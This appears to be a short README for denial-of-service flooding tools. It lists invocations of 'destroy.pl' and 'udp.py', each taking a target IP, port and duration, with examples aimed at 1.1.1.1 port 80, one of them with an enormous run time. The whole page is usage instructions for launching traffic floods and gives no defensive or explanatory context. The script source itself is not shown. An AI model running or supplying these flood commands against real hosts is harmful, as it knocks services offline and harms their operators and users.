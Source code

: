 # Commands

$ Destroy 

perl destroy.pl 1.1.1.1 80 65500 50000000000

Usage: destroy {ip} {port} {time}

Example: destroy 1.1.1.1 80 60

$ UDP

python2 udp.py 1.1.1.1 80

Usage: udp {ip} {port} 

Example: udp 1.1.1.1 80 

